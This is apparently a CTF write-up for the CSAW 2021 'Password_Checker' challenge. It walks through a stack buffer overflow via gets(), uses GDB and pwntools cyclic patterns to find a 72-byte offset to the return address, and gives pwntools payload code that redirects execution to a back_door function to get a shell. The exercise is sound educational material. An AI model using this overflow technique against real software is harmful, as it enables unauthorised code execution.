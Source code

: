 # Password_Checker
The goal of this challenge is to get a shell on a remote system and cat the flag.txt file. This is done through a standard b0f through the vulnerable `gets` function that will allow us to control execution flow in order to call `back_door`.

`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) 

GDB-GEF disass of `password_checker`:

![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra bytes of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  back_door = p64(password_elf.symbols.backdoor)
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
